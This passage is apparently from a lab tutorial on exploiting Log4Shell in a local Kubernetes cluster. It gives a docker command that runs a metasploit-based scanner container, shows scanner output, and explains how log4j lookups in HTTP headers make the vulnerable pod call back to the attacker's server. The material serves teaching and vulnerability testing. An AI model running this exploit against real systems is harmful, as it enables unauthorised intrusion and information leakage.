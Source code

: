 Before we dive into the exploitation, let's briefly explore the environment architecture and what is going to happen.

In order to simulate an external request, I’m going to use Docker to run a container outside of the cluster that was created in the previous steps. I will hook the container to the kind network that is used by the cluster.

When the exploit container is running, it will fire up the metasploit framework and try to establish a connection to the cluster. It will do this by using the values that are automatically determined via the `entry.sh` file located inside the `log4j-scanner` container.

> <span style="color:yellow">**Note:**</span> log4j-scanner is a simple container running the latest version of metasploit and using a log4shell scanner script to evaluate the existence of the vulnerability.

Run the exploit.
```
docker run --rm --name log4j-poc-exploit --net kind rezareza/log4j-scanner
```

You should see a similar output indicating a successful attack. The output should show the version of Java used inside the `vulnerable-pod`.
```
[*] Started service listener on 172.18.0.4:389
[*] Scanned 1 of 2 hosts (50% complete)
[+] 172.18.0.2:30950      - Log4Shell found via / (header: Authorization) (java: Oracle Corporation_11.0.13)
```

Basically, the attacker sent a malicious request by including `log4j` special lookup format inside the HTTP request headers. In this attempt, the attacker is looking for `${sys:java.vendor}` and `${sys:java.version}`, which will be substituted by log4j with the version of Java and the vendor providing it.
 
You can use the following command to check the actual request.
```
kubectl logs  deployments/vuln-pod -n log4j-demo  | egrep 'authorization'
```

When a request is received by the `vulnerable-pod` it establishes a connection to the attacker’s server and sends back information revealing the version of Java used inside the `vulnerable-pod`.

Here is the output taken from the `log4j-scanner`.
```
[+] 172.18.0.2:30950      - Log4Shell found via / (header: Authorization) (java: Oracle Corporation_11.0.13)
```
